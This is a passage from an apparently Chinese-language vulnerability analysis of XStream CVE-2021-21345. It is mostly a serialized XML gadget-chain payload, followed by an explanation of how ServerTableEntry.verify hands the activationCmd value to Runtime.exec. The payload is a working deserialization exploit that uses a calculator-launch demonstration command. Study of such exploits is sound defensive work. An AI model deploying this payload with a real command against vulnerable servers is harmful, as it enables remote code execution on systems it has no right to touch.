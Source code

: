 ```
                          <class>com.sun.corba.se.impl.activation.ServerTableEntry</class>
                          <name>verify</name>
                          <parameter-types/>
                        </getter>
                      </inheritedAttWildcard>
                    </bi>
                    <tagName/>
                    <context>
                      <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                        <outer-class reference='../..'/>
                      </marshallerPool>
                      <nameList>
                        <nsUriCannotBeDefaulted>
                          <boolean>true</boolean>
                        </nsUriCannotBeDefaulted>
                        <namespaceURIs>
                          <string>1</string>
                        </namespaceURIs>
                        <localNames>
                          <string>UTF-8</string>
                        </localNames>
                      </nameList>
                    </context>
                  </bridge>
                </bridge>
                <jaxbObject class='com.sun.corba.se.impl.activation.ServerTableEntry'>
                  <activationCmd>open /Applications/Calculator.app</activationCmd>
                </jaxbObject>
              </dataSource>
            </message>
            <satellites/>
            <invocationProperties/>
          </packet>
        </indexMap>
      </comparator>
    </default>
    <int>3</int>
    <string>javax.xml.ws.binding.attachments.inbound</string>
    <string>javax.xml.ws.binding.attachments.inbound</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

可以看到 21345 的利用链较之 21344 的利用链来说变化不大，唯一的不同点在于执行代码的位置不再使用 JdbcRowSetImpl 去远程加载恶意类来到本地执行恶意代码，而是使用 com.sun.corba.se.impl.activation.ServerTableEntry 类直接在本地执行恶意代码，从利用的复杂度上来和 21344 做比较的话无疑是简单的不少，既然整个利用链中变化的只有这一处，那就单分析这个类就可以了，将断点直接打在 ServerTableEntry 类的 verify 方法上。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxfTxZ4phQibhxCmqibQIAt35vqhGLjicV35A1VibGcBNunPpoGY5F7oNX2A/640?wx_fmt=png)

这里直接将 activationCmd 属性中的值作为参数调用 Runtime.exec 来进行执行，而 activationCmd 在序列化的数据中就已经被我们自定义了值。  
